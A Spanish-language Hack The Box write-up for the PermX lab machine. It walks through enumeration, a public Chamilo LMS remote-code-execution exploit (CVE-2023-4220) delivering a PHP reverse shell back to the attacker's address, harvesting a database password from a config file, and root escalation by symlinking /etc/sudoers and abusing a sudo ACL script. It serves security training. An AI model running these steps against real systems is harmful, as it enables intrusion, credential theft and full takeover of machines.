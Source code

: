 ```yaml
---
layout: single
title: PermX - Hack The Box
excerpt: "Descripcion"
date: 2024-07-09
classes: wide
header:
  teaser: assets/images/htb-writeup-PermX/PermX_Teaser.png
  teaser_home_page: true
  icon: assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Box
  - cve
---
```

![](../assets/images/htb-writeup-PermX/PermX.png)

**RECON**

**PORTS SCAN**

```ruby
>$ nmap -A -sV -sC permx.htb -oA nmap/PermX
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-08 10:52 EDT
Nmap scan report for 10.129.84.129
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://permx.htb
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
En el puerto 80 hay un servidor web que está dirigido a http://permx.htb. Al añadirlo a los vhosts y acceder a la URL, encontramos un sitio web estático que no contiene información relevante o interesante.


Después, al realizar una enumeración de subdominios utilizando wfuzz, se muestra un subdominio llamado lms.permx.htb.

```ruby
❯ wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hc 302,404 -H "Host: FUZZ.permx.htb" permx.htb
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://permx.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                      
=====================================================================

000000001:   200        586 L    2466 W     36182 Ch    "www"                                        
000000477:   200        352 L    940 W      19347 Ch    "lms" 

```
Hemos añadido los nuevos subdominios a ``/etc/hosts`` y ahora procederemos a visitar la página.

![](../assets/images/htb-writeup-PermX/lms-login.png)

Mientras investigaba la versión de Chamilo y las vulnerabilidades recientes, encontré un exploit en GitHub con un POC (prueba de concepto) de ejecución de código remoto no autenticado.

[CVE-2023-4220](https://github.com/Ziad-Sakr/Chamilo-LMS-CVE-2023-4220-Exploit/tree/main)

Te recomiendo usar la revershell de pentestmonkey.

[Pentestmonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

```ruby
❯ bash CVE-2023-4220.sh -f rev.php -h http://lms.permx.htb/  -p 443

The file has successfully been uploaded.

#    Use This leter For Interactive TTY ;)  
#    python3 -c 'import pty;pty.spawn("/bin/bash")'
#    export TERM=xterm
#    CTRL + Z
#    stty raw -echo; fg

# Starting Reverse Shell On Port 443 . . . . . . .                                                            
                                                                                                              
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.86.51] 47548
Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 17:34:08 up 18:45,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
www-data@permx:/$
www-data@permx:/$
www-data@permx:/$ ls
bin   dev  home  lib32  libx32      media  opt   root  sbin  sys  usr
boot  etc  lib   lib64  lost+found  mnt    proc  run   srv   tmp  var
```
Después de revisar un poco las configuraciones, pensé que si había un panel de login, probablemente habría alguna configuración vinculada a una base de datos. Fue entonces cuando encontré credenciales de la base de datos.

```ruby
www-data@permx:/var/www/chamilo/app/config$ cat configuration.php

<?php
// Chamilo version 1.11.24
// File generated by /install/index.php script - Sat, 20 Jan 2024 18:20:32 +0000
/* For licensing terms, see /license.txt */
/**
 * This file contains a list of variables that can be modified by the campus site's server administrator.
 * Pay attention when changing these variables, some changes may cause Chamilo to stop working.
 * If you changed some settings and want to restore them, please have a look at
 * configuration.dist.php. That file is an exact copy of the config file at install time.
 * Besides the $_configuration, a $_settings array also exists, that
 * contains variables that can be changed and will not break the platform.
 * These optional settings are defined in the database, now
 * (table settings_current).
 */

// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;

/**
```
Resulta que el usuario mtz reutilizó la contraseña... ahora tenemos acceso a su cuenta.

Una vez dentro, descubrimos que el usuario mtz tiene permisos sudo para ejecutar un script de bash que modifica los permisos de archivos de cualquier usuario....
```ruby
mtz@permx:~$ sudo -l 
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

Utilicé este script para cambiar los permisos del archivo sudoers y lo modifiqué para otorgarle al usuario mtz privilegios sudo en el host. Para lograrlo, creé un enlace simbólico al archivo /etc/sudoers en el directorio /home/mtz y utilicé el script para darle permisos de lectura y escritura al usuario.

```ruby
mtz@permx:~$ ln -s /etc/sudoers ./tada
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/tada
```

Modifica el archivo de sudoers.

```ruby
. . .

@includedir /etc/sudoers.d
mtz ALL=(ALL:ALL) NOPASSWD: ALL
```
Ahora ya podemos hacer login a root!!

```ruby
mtz@permx:~$ sudo su
root@permx:/home/mtz# cat /root/root.txt
xxxxxxxxxxxxxxxxxxxxxxx
```
